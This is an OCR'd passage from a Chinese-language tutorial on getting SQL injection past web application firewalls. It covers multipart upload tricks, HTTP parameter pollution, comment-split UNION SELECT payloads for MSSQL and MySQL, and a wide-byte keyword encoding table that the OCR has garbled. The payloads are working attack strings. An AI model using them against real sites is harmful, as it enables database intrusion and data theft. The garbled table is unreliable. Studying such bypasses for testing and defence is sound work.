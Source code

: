 \<input type="text" name="id"\>

\<input type="submit"\>

\</form\>\</body\>\` \`\</html\>

上传数据包参数：

\------WebKitFormBoundaryACZoaLJJzUwc4hYM

Content-Disposition: form-data; name="id"

1

from information_schema.SCHEMATA

\------WebKitFormBoundaryACZoaLJJzUwc4hYM--

4.HPP参数污染

?id=1&id=2&id=3的形式，此种形式在获取id值时不同的web技术获取的值是不一样的

Asp.net + iis：id=1,2,3

Asp + iis：id=1,2,3

Php + apache：id=3

MSSQL:

大小写：?id=1 UNION/\*&ID=\*/SELECT 1,2/\*&Id=\*/FROM ADMIN

GET+POST形式:

http://192.168.125.140/test/sql.aspx?id=1 union/\*

post: id=2\*/select null,null,null

利用逗号：?id=1 union select 1&id=2&id=3&id=4 from admin--（无逗号形式）

?a=1+union/\*&b=\*/select+1,pass/\*&c=\*/from+users--(分割参数注入)

无效参数形式：?a=/\*&sql=xxx&b=\*/

备注：a,b为无效参数，让waf误以为我们输入的语句是在注释符里面执行的所以就不拦截

溢出形式：?id=1/\*&id=\*//\*&id=\*//\*......&id=\*//\*&id=\*/ union select
null,system_user,null from INFORMATION_SCHEMA.schemata

Mysql：

?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin

5.宽字节

宽字节关键字对照表：

union = uю%69яю这里把i不用宽字节 直接url编码 其他的字符都用对应的宽字节

select = こхlх%уt //t不编码 其他的都宽字节 中间插上%

from = цR%яэ //宽字节+%

空格=%20=%ва //в是2的款字符 а是0的宽字符
